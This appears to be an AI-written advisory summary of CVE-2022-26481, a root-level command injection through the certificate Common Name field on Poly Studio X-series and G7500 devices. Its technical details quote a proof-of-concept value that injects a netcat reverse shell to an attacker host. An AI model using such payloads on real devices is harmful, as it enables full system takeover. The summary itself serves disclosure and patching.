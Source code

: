 Based on the provided content, here's a breakdown of the vulnerability:

**CVE ID:** CVE-2022-26481

**Root Cause of Vulnerability:**
The vulnerability stems from insufficient input sanitization in the web interface when creating a certificate. Specifically, the "Common Name (CN)" field within the Certificate Details form is vulnerable to command injection.

**Weaknesses/Vulnerabilities Present:**
- **Authenticated Command Injection:** An attacker can inject arbitrary operating system commands through the "Common Name" field during the creation of a Certificate Signing Request (CSR).
- **Elevated Privileges:** The injected commands are executed with root privileges on the device.

**Impact of Exploitation:**
- **Full System Compromise:** An attacker can achieve complete control over the vulnerable device by executing arbitrary commands with root privileges. This could lead to data exfiltration, denial of service, or further malicious activities within the network.

**Attack Vectors:**
- **Web Interface:** The vulnerability is exploited through the web interface of the Poly devices. Specifically, the "Security > Certificates" section.
- **Certificate Signing Request (CSR):** The "Common Name" field within the CSR form is the injection point.

**Required Attacker Capabilities/Position:**
- **Authentication:** The attacker must be authenticated to access the web interface of the Poly device.
- **Network Access:** The attacker needs network connectivity to the device to interact with the web interface.

**Technical Details:**
- The attacker injects a command within the `Common Name (CN)` field using the syntax `$(command)`. In the provided proof of concept, the attacker used `$(busybox nc 10.0.0.1 8888 -e /system/bin/sh)` to establish a reverse shell connection back to the attacker's machine.

**Affected Products/Versions:**
- Poly Studio X30
- Poly Studio X50
- Poly Studio X70
- G7500
- Firmware versions 3.4.0-292042, 3.5.0-344025, and 3.6.0.

**Patched Version:**
- Firmware version 3.7.0 and higher.

The provided content gives a comprehensive description of the vulnerability, including the affected versions, a proof-of-concept exploit, and remediation advice, and is more detailed than the standard CVE description.
